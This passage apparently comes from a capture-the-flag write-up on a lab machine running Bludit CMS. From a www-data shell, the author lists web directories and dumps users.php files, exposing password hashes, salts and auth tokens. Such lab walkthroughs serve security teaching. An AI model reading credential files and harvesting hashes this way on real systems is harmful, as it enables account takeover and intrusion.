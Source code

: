 ```
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "a6289b779712c5e3b86ffcd2d0449734",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ 
```
we found username admin and author and hash password
```
username           : admin
password hash   : bfcc887f62e36ea019e3295aafb8a3885966e265"
```
and for hugo we can try to find to other directory
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cd /var/www
www-data@blunder:/var/www$ ls -la
ls -la
total 20
drwxr-xr-x  5 root     root     4096 Nov 28  2019 .
drwxr-xr-x 15 root     root     4096 Nov 27  2019 ..
drwxr-xr-x  8 www-data www-data 4096 May 19 15:13 bludit-3.10.0a
drwxrwxr-x  8 www-data www-data 4096 Apr 28 12:18 bludit-3.9.2
drwxr-xr-x  2 root     root     4096 Nov 28  2019 html
www-data@blunder:/var/www$ cd bludit-3.10.0a/bl-content/databases
cd bludit-3.10.0a/bl-content/databases
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ ls -la
ls -la
total 80
drwxr-xr-x 3 www-data www-data  4096 May 19 10:10 .
drwxr-xr-x 7 www-data www-data  4096 May 19 10:03 ..
-rw-r--r-- 1 www-data www-data   438 May 19 10:03 categories.php
-rw-r--r-- 1 www-data www-data  3437 May 19 10:03 pages.php
drwxr-xr-x 6 www-data www-data  4096 May 19 10:03 plugins
-rw-r--r-- 1 www-data www-data 42844 May 19 10:03 security.php
-rw-r--r-- 1 www-data www-data  1319 May 19 10:03 site.php
-rw-r--r-- 1 www-data www-data  2276 May 19 10:03 syslog.php
-rw-r--r-- 1 www-data www-data    52 May 19 10:03 tags.php
-rw-r--r-- 1 www-data www-data   597 May 19 10:10 users.php
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
```